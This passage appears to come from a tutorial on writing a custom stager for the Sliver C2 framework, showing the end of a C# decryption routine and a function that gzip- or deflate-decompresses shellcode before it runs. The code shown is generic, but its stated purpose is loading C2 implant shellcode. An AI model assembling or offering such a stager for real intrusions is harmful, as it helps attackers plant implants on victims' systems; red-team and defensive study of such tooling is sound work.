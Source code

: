```C#
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }
```

# Decompressing the shellcode

Sliver C2 supports gzip,deflate9 and zlib compression algorithms. i ended up not implementing zlib  because its only supported on dotnet framework version 7.0 and above which does not fit our usecase. 
we will have to set the decompression algorithm parameter to  gzip, deflate9 . any other value will be treated as "no decompression needed" :
```C#
        public static byte[] Decompress(byte[] data, string CompressionAlgorithm)
        {
            byte[] decompressedArray = null;
            if (CompressionAlgorithm == "deflate9")
            {
                using (MemoryStream decompressedStream = new MemoryStream())
                {
                    using (MemoryStream compressStream = new MemoryStream(data))
                    {
                        using (DeflateStream deflateStream = new DeflateStream(compressStream, CompressionMode.Decompress))
                        {
                            deflateStream.CopyTo(decompressedStream);
                        }
                    }
                    decompressedArray = decompressedStream.ToArray();
                }
                return decompressedArray;
            }
            else if (CompressionAlgorithm == "gzip")
            {
                using (MemoryStream decompressedStream = new MemoryStream())
                {
                    using (MemoryStream compressStream = new MemoryStream(data))
                    {
                        using (GZipStream gzipStream = new GZipStream(compressStream, CompressionMode.Decompress))
                        {
                            gzipStream.CopyTo(decompressedStream);
                        }
                    }
                    decompressedArray = decompressedStream.ToArray();
                }
                return decompressedArray;
            }
            else
            {

                return data;
            }


```